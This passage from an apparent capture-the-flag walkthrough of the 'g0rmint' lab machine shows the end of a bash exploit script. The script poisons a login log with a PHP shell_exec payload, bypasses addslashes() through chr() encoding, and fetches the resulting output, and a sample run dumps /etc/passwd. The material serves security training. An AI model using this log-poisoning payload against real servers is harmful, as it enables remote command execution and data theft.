 ```bash
    DATE=$(date "+%Y-%m-%d")
    curl -s \
         -b cookie \
         http://$HOST/$BASE/deletesecretlogfile.php?file=$DATE.php &>/dev/null
    curl -s \
         --data "email=<?php echo shell_exec($PAYLOAD);?>&pass=&submit=submit" \
         http://$HOST/$BASE/login.php &>/dev/null
    curl -s \
         -b cookie \
         http://$HOST/$BASE/$SECRET/$DATE.php \
    | sed -e 's/Failed login attempt detected with email: //' -e 's/<br>//g' \
    | sed '1d' \
    | sed '$d'
}

# main
authenticate
exploit

# remove cookie jar
rm -rf cookie
```

The workhorse of the script is the `encode()` function. This function turns each ASCII characters of the command string into their ordinals. Each ordinal will go into the PHP `chr()` function and concatenate back as a string. This is to bypass [`addslashes()`](http://php.net/manual/en/function.addslashes.php){: .external}{: target="_blank"} that is present in `config.php`.

![addslashes](/assets/images/posts/g0rmint-1-walkthrough/g0rmint-15.png)

Supply the email, password, and command as arguments, and the script spits out the result.

```
# ./exploit.sh w3bdrill3r@gmail.com 30e1a63a8968b727f276 "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
...
g0rmint:x:1000:1000:Noman Riffat,,,:/home/g0rmint:/bin/bash
mysql:x:108:117:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
```
